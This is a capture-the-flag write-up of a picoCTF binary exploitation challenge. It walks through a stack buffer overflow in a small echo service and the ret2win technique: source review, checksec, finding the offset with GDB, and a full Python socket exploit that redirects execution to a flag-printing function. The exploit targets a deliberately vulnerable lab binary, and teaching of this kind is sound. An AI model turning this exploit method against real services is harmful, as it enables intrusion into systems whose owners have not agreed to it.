










# Echo Escape 1

**Category:** Binary Exploitation
**Difficulty:** Medium
**Author:** Yahaya Meddy

---

## Challenge Description

The challenge provides a small echo service.

```text
The "secure" echo service welcomes you politely… but what if you don’t stay polite?
Can you make it reveal the hidden flag?
```

The program asks for a name, echoes it back, and then exits.

The hints suggest that the program reads more data than the buffer can hold and that execution flow can be redirected.

---

## Source Code Review

I started by reviewing the provided source code.

The first interesting function is `win()`:

```c
void win() {
    FILE *fp = fopen("flag.txt", "rb");
    if (!fp) {
        perror("[!] Failed to open flag.txt");
        return;
    }

    char buffer[128];
    size_t n = fread(buffer, 1, sizeof(buffer), fp);
    fwrite(buffer, 1, n, stdout);
    fflush(stdout);
    printf("\n");
    fclose(fp);
}
```



This function opens `flag.txt`, reads its content, and prints it to standard output.

However, the program never calls `win()` normally.

The vulnerable code is inside `main()`:

```c
int main() {
    char buf[32];

    printf("Welcome to the secure echo service!\n");
    printf("Please enter your name: ");
    fflush(stdout);

    read(0, buf, 128);

    printf("Hello, %s\n", buf);
    printf("Thank you for using our service.\n");

    return 0;
}
```



The program allocates a stack buffer of only `32` bytes:

```c
char buf[32];
```

but then reads up to `128` bytes into it:

```c
read(0, buf, 128);
```

This creates a stack-based buffer overflow.

---

## Binary Information

I checked the binary with the `file` command:

```bash
file ./vuln
```



The output shows that the binary is:

```text
ELF 64-bit LSB executable
dynamically linked
not stripped
```

Since it is a 64-bit binary, addresses must be packed as 64-bit little-endian values in the exploit.

The binary is also not stripped, so symbols such as `win` are still visible.

---

## Security Protections

Next, I checked the binary protections using `checksec`:

```bash
checksec --file=./vuln
```



Important results:

```text
No canary found
NX enabled
No PIE
```

These protections matter because:

* **No canary** means the stack overflow is not protected by a stack canary.
* **NX enabled** means injected shellcode on the stack is not executable.
* **No PIE** means binary addresses are static.

Because PIE is disabled, the address of `win()` is fixed.

This makes the challenge a classic `ret2win`: instead of injecting shellcode, we overwrite the saved return address with the address of the existing `win()` function.

---

## Generating a Cyclic Pattern

To find the exact offset to the saved return address, I generated a cyclic pattern.

The program reads up to `128` bytes:

```c
read(0, buf, 128);
```

So I generated a cyclic pattern of length `128`.



The generated pattern was sent to the program under GDB.

---

## Crashing the Program in GDB

I ran the binary inside GDB:

```bash
gdb -q ./vuln
```

Then I started the program:

```gdb
run
```

When the program asked for input, I pasted the cyclic pattern.

After the program returned from `main()`, it crashed with a segmentation fault.

I inspected the stack pointer:

```gdb
x/gx $rsp
```

The value at `$rsp` was:

```text
0x3562413462413362
```



This value comes from the cyclic pattern and represents the bytes that overwrote the saved return address.

---

## Decoding the Little-Endian Value

The binary is little-endian, so the value shown by GDB must be decoded in reverse byte order.

I used CyberChef with the following recipe:

```text
From Hex
Reverse
```

Input:

```text
3562413462413362
```

Output:

```text
b3Ab4Ab5
```



This gives the pattern substring that overwrote the saved return address.

---

## Finding the Offset

I pasted the value into the cyclic pattern offset calculator.

The calculator returned:

```text
Offset: 40
```



So the saved return address is reached after `40` bytes.

This also matches the expected 64-bit stack layout:

```text
32 bytes buffer
8 bytes saved RBP
------------------
40 bytes before saved RIP
```

Therefore, the payload needs:

```text
"A" * 40
```

before the new return address.

---

## Finding the Address of `win()`

To find the address of `win()`, I used `objdump`:

```bash
objdump -d ./vuln | grep -A5 'win'
```

The output shows:

```text
0000000000401256 <win>:
```


Therefore:

```text
win = 0x401256
```

---

## Exploit Strategy

At this point, I had the two important values:

```text
Offset: 40
win():  0x401256
```

The payload layout is:

```text
padding + win address
```

In Python:

```python
payload = b"A" * 40 + struct.pack("<Q", 0x401256)
```

`struct.pack("<Q", 0x401256)` packs the address as a 64-bit little-endian value.

When `main()` returns, the overwritten return address makes execution jump to `win()`.

---

## Local Exploit Test

Before attacking the remote service, I tested the payload locally.

I created a local fake flag:

```python
open("flag.txt", "wb").write(b"local_flag_test\n")
```

Then I ran the binary with the payload:

```python
import struct
import subprocess

open("flag.txt", "wb").write(b"local_flag_test\n")

offset = 40
win = 0x401256

payload = b"A" * offset + struct.pack("<Q", win)

p = subprocess.run(
    ["./vuln"],
    input=payload,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE
)

print(p.stdout.decode(errors="ignore"))
```

The output included:

```text
local_flag_test
```



This confirmed that the payload successfully redirected execution to `win()`.

---

## Remote Exploitation

The remote service was running at:

```text
mysterious-sea.picoctf.net 65180
```

Using plain `nc` is not reliable for this payload because the packed address contains non-printable bytes and null bytes.

So I used a Python socket script to send the raw bytes:

```python
#!/usr/bin/env python3
import socket
import struct

HOST = "mysterious-sea.picoctf.net"
PORT = 65180

OFFSET = 40
WIN = 0x401256

payload = b"A" * OFFSET + struct.pack("<Q", WIN)

s = socket.create_connection((HOST, PORT), timeout=10)

banner = s.recv(4096)
print(banner.decode(errors="ignore"), end="")

s.sendall(payload)

out = b""
s.settimeout(3)

while True:
    try:
        chunk = s.recv(4096)
        if not chunk:
            break
        out += chunk
    except socket.timeout:
        break

print(out.decode(errors="ignore"))
s.close()
```

After sending the payload, the service executed `win()` and printed the flag.

---

## Exploit Flow

```text
Review source code
    ↓
Find win() function that prints flag.txt
    ↓
Find vulnerable buffer:
char buf[32]
read(0, buf, 128)
    ↓
Check protections with checksec
    ↓
Confirm No canary and No PIE
    ↓
Generate cyclic pattern of length 128
    ↓
Crash the program in GDB
    ↓
Read overwritten value from $rsp
    ↓
Decode little-endian value with CyberChef
    ↓
Find offset = 40
    ↓
Find win() address with objdump
    ↓
Build payload:
b"A" * 40 + p64(0x401256)
    ↓
Send payload to remote service
    ↓
Get the flag
```

---

## Final Exploit Script

```python
#!/usr/bin/env python3
import socket
import struct

HOST = "mysterious-sea.picoctf.net"
PORT = 65180

OFFSET = 40
WIN = 0x401256

payload = b"A" * OFFSET + struct.pack("<Q", WIN)

s = socket.create_connection((HOST, PORT), timeout=10)

print(s.recv(4096).decode(errors="ignore"), end="")

s.sendall(payload)

out = b""
s.settimeout(3)

while True:
    try:
        chunk = s.recv(4096)
        if not chunk:
            break
        out += chunk
    except socket.timeout:
        break

print(out.decode(errors="ignore"))
s.close()
```

---



## Tools Used

```text
file
checksec
objdump
gdb
CyberChef
Wiremask cyclic pattern generator
Python sockets
```

---

## Key Takeaways

* Reading `128` bytes into a `32`-byte buffer creates a stack buffer overflow.
* A cyclic pattern helps find the exact offset to the saved return address.
* On little-endian systems, crash values may need byte-order reversal before searching for the offset.
* With **No PIE**, function addresses are static.
* With **No canary**, overwriting the return address is easier.
* This challenge is a classic `ret2win`: overwrite the saved return address with the address of `win()`.

---

## Final Flag

```text
picoCTF{...REDACTED...}
```
